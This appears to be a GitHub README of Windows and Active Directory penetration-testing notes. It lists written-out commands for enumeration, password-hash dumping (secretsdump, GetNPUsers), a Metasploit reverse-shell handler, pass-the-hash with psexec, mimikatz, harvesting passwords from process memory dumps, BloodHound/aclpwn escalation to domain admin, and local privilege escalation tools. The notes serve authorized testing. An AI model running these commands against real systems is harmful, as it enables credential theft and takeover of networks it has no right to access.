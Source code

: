 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains if an LDAP server is running

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 


## Dump Processes

Get ProcDump https://docs.microsoft.com/en-us/sysinternals/downloads/procdump and upload it to the windows server.
Afterwards you can dump any process by using

```bash
.\procdump64.exe -ma PID DUMP_FILE
```

Download it and analyze it. If Firefox is running, it might be possible that passwods are send plain text. 

## Shells

Next to evil-winrm, meterpreter shells and reverse shells you can get access using impackets psexec.py 

```bash
psexec.py DOMAIN/USER:PASSWORD@IP 
```

or if you cannot crack the NTLM Hash you can access directly using the hash with the pass the hash method (https://en.wikipedia.org/wiki/Pass_the_hash)

```bash
psexec.py -hashes LMHASH:NTHASH DOMAIN/USER@IP
```

## Privilege Escalation

## JuicyPotato 

Use JuicyPotato if you have a service account 

check priveleges in a powershell command with

```
whoami /priv
```

if Impersonate or WithToken is enabled. escalate

### WinPEAS

Use WinPEAS for enumeration

### Using AlwaysInstalledElevated misconfig

https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/

### Mimikatz
Mimikatz has several options, from exploiting kerberos over pass the hash.
Look at https://github.com/gentilkiwi/mimikatz/wiki

### BloodHound and aclpwn 
see above

### Enumeration (not windows specific)

#### Dump Processes
see above

#### MITM
Getting a local mitm using a proxy for example, we can read traffic and ideally getting passwords in clear. 
Use own adjusted scripts depending on the software. 

#### enumerate whats on a machine
see https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/ for several PS commands to check the server for services, files etc.

#### CVEs 
Check for old CVEs with Sherlocks PowerShell script
upload Sherlock.ps1 to the server

```bash
Import-Module .\Sherlock.ps1
```

or use the newer version Watson.
upload the Watson_Net45.exe or Watson_Net35.exe to the server and execute

```bash 
.\Watson_Net45.exe 
```
